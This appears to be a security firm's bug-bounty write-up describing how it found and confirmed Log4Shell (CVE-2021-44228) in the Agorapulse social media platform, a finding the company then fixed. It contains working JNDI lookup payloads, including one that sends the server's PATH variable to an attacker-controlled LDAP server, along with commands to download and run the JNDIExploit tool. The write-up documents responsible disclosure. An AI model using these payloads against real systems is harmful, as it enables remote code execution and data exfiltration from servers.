 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information. For example, if an attacker can inject malicious code into a Log4j logging statement, they can execute any arbitrary commands on the vulnerable server.


Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j versions 2.0 to 2.14.1, as identified by Chen Zhaojun of the Alibaba Cloud Security Team. NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this as CVE-2021–44228. Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and a havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the analytics published by hackerone which say , “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell" . Almost the same number of reports were submitted on bugcrowd as well with over _300 reports_ submitted in a single day.


## What is agorapulse:

Agorapulse basically provides everything an organization  could possibly need for social media marketing and monitoring and management.focusing on social media platforms like facebook,linkedin and twitter,agorapulse provides a comprehensive and a compact platform for companies for their marketing strategies while also keeping it under the budget radar.The software is used to create & schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability, Due to the fact that the vulnerability could be present on any endpoint or any request it was really hard to focus on one part of an application. So decided to submit payloads all over the web application and wait for any pingbacks, To do that We identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application and as said above to keep things organized we used functionality-specific identifiers in the payloads. 

For example, We used 

If we were using a payload in profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in messege box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to indentify the vulnerable request to trigger the vulnerability.


On the other hand we also played it safe, using a payload that was not at all harmful to the client i,e did not result in any denial of service attack or executing any malicious coommands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the dns pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}` .

So now the identification process began and after a while we received two pingbacks. One of the received was a false pingback. But next up we had a dns pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![x](/blog/assets/images/agora-log4j/1.png)



- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}`, and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![x](/blog/assets/images/agora-log4j/2.png)

- On going back to burp collaborator Client you will see a Pingback on it

![x](/blog/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections the successful exploitation could lead to RCE. We refrained from doing any such action which could lead to any kind of disruption in services. So, we decide to prove the impact by extacting the global PATH variable to prove the real impact of the vulnerability and we needed to setup and JNDI server for that, So we quickly setup an amazon ec2 and setup an JNDI server using the following approach.

- SSH to your Server


```console
ssh user@<your-ip>
```

- Download and Install JNDI Server

```console
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```console
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and make a another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![x](/blog/assets/images/agora-log4j/4.png)
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical. And Hence no sensitive , Confidential or any information related to their users were extracted.


## Response of Agora Team

Submitting the report to the agora team, we got their first response in a day. They were responsive and concerned with the security of their online assets. They fixed the bug in a on the same day and rewarded our finding.

After their fix was implemented we , The team requested an re-check on the vulnerability and we tried various payloads and bypasses to conform if the fix was working well. But we were unable to bypass the fix and it was working fine and we confirmed the fix.

  
  


## About us

Snapsec is a team of security experts specialized in providing pentesting and other security services to secure your online assets. We have a specialized testing methodology that ensures in-depth testing of your business logic and other latest vulnerabilities. 

 If you are looking for a team that values your security and ensures that you are fully secure against online security threats, feel free to get in touch with us #[support@snapsec.co](mailto:support@snapsec.co)
 
 
